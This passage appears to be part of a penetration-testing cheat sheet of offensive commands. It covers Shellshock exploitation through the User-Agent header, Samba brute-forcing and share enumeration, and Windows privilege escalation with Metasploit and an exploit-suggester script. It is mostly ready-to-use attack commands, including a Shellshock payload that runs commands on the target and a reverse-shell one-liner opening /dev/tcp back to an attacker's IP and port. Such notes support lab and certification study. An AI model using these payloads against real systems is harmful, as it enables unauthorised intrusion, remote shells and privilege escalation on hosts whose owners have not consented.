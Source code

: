 ```bash


MANUAL EXPLOITATION
- in user agent field pass the following (-A with curl)
> () { :; }; echo; echo; /bin/bash -c 'whoami'
> () { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/$IP/$PORT 0>&1'


MSF
> use apache_mod_cgi
> set rhosts & targeturi
```
#### SAMBA
```bash
ATTACK CHAIN
Bruteforce
> hydra

SMBMAP
> smbmap -H $IP -u user -p pass

SMBCLIENT
> smbclient //$IP/$SHARE -U $USER

Enum4linux
> enum4linux -a -u $USER -p $PASS
```
## Privilege Escalation
SCRIPTS
script 1 :  https://github.com/AonCyberLabs/Windows-Exploit-Suggester
script 2 : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135
#### Windows 
>using msf's exploit suggester
```bash
> use post/multi/recon/local_exploit_suggester
> set SESSION
> run

NB: after picking the LPE exploit, change the lport,cause you already prolly used it to catch a shell before.
```
- google each suggested exploit for to see if it has been used or is specific to the windows build you are attacking

MANUAL WAY
-  using script 1 
```bash
- clone repo and run with update flag
- use the microsoft xslx db against systeminfo output txt file

create a new txt file with systeminfo cmd content output saved to it.

> ./windows-exploit-suggester.py --update
> ./windows-exploit-suggester.py --database YYY-M-D --systeminfo /tmp/systeminfo.txt

> upload /home/exploit/3030.exe
```
